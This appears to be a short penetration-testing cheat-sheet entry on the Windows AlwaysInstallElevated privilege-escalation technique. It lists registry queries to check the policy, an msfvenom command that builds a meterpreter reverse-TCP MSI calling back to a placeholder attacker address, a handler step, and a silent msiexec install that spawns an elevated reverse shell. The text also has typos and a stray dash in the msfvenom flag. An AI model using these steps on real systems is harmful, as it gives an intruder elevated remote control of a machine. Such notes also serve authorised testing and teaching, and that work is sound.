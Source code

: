 # AlwaysInstallElevated
If the two registry keys liosted below are present and both equal "0x1", then we can exploit these permissions to spawn a reverse shell using a specially crafted MSI file.
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Generate the malicious MSI file like so,
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=(ATTACKER IP ADDRESS) lport=(ATTACKER PORT) –f  msi > install.msi
```
STart the listener using the `exploit/multi/handler` module on the correct port, and infiltrate the MSI file to the target system. Then, simply install it with the following command,
```
C:> msiexec /quiet /qn /i  install.msi
```
And a reverse shell should spawn to the listener.
